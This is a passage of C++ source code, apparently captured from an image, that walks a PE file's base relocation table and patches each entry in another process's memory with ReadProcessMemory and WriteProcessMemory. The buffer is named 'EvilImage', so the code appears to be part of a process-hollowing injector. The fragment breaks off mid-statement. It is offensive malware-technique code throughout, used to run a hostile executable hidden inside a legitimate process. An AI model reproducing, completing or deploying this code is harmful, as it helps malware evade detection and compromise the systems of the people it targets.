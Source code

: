 ```cpp
			IMAGE_DATA_DIRECTORY RelocData = nt_head->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_BASERELOC];
			DWORD Offset = 0;

			// Iterate Over The Relocation Table
			while (Offset < RelocData.Size){

				// Get The Head Of The Relocation Block
				PBASE_RELOCATION_BLOCK pBlockHeader = (PBASE_RELOCATION_BLOCK) &EvilImage[RelocAddress + Offset];
				printf("\nRelocation Block 0x%x. Size: 0x%x\n", pBlockHeader->PageAddress, pBlockHeader->BlockSize);

				Offset += sizeof(BASE_RELOCATION_BLOCK);

				// Calculate The Entries In the Current Table
				DWORD EntryCount = (pBlockHeader->BlockSize - sizeof(BASE_RELOCATION_BLOCK)) / sizeof(BASE_RELOCATION_ENTRY);
				printf("%d Entries Must Be Realocated In The Current Block.\n", EntryCount);

				PBASE_RELOCATION_ENTRY pBlocks = (PBASE_RELOCATION_ENTRY) &EvilImage[RelocAddress + Offset];

				for (int x = 0; x < EntryCount; x++)
				{
					Offset += sizeof(BASE_RELOCATION_ENTRY);
					
					// If The Type Of The Enrty Is 0 We Dont Need To Do Anything
					if (pBlocks[x].Type == 0){
						printf("The Type Of Base Relocation Is 0. Skipping.\n");
						continue;
					}

					// Resolve The Adderss Of The Reloc
					DWORD FieldAddress = pBlockHeader->PageAddress + pBlocks[x].Offset;
					
					#ifdef _X86_
					// Read The Value In That Address
					DWORD EnrtyAddress = 0;
					ReadProcessMemory(proc_info.hProcess, (PVOID)((DWORD)BaseAddress + FieldAddress), &EnrtyAddress, sizeof(PVOID), 0);
					printf("0x%llx --> 0x%llx | At:0x%llx\n", EnrtyAddress, EnrtyAddress + BaseOffset, (PVOID)((DWORD)BaseAddress + FieldAddress));

					// Add The Correct Offset To That Address And Write It
					EnrtyAddress += BaseOffset;
					if (!WriteProcessMemory(proc_info.hProcess, (PVOID)((DWORD)BaseAddress + FieldAddress), &EnrtyAddress, sizeof(PVOID), 0)) {
						printf("Error Writing Entry.\n");
					}
					#endif
					#ifdef _WIN64
					// Read The Value In That Address
					DWORD64 EnrtyAddress = 0;
					ReadProcessMemory(proc_info.hProcess, (PVOID)((DWORD64)BaseAddress + FieldAddress), &EnrtyAddress, sizeof(PVOID), 0);
					printf("0x%llx --> 0x%llx | At:0x%llx\n", EnrtyAddress, EnrtyAddress + BaseOffset,(PVOID)((DWORD64)BaseAddress + FieldAddress));
					
					// Add The Correct Offset To That Address And Write It
					EnrtyAddress += BaseOffset;
					if (!WriteProcessMemory(proc_info.hProcess, (PVOID)((DWORD64)BaseAddress + FieldAddress), &EnrtyAddress, sizeof(PVOID), 0)){
```